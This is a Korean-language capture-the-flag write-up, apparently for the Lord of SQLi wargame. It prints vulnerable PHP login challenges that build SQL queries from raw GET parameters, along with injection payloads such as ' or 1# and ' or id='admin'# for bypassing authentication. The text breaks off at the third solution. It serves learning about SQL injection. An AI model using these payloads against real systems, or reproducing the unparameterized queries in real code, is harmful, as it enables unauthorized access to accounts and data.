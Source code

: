 ## 풀이
인젝션 해야 하는 쿼리문은 아래의 쿼리문 입니다.
```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

id,pw에 아무런 필터링이 걸려있지 않으므로 다음과 같이 pw를 보내면 됩니다.

```php
pw = ` or 1#
```

# 2번
## 문제
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## 풀이
이번 문제는 pw부분으로 인자값을 보내면, md5해시의 매개변수로 들어가서 pw부분은 인젝션을 시도하기에 적절하진 않습니다. id 부분을 이용해서 인젝션을 수행해 줍니다.

```sql
id = ' or id='admin'#
```

![image](https://user-images.githubusercontent.com/33647663/158064713-8a0c3520-4d0c-4760-a538-5939ed05e155.png)


# 3번
## 문제
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>

```
## 풀이
이번에 인젝션을 시도하는 쿼리문은 아래의 쿼리문 입니다.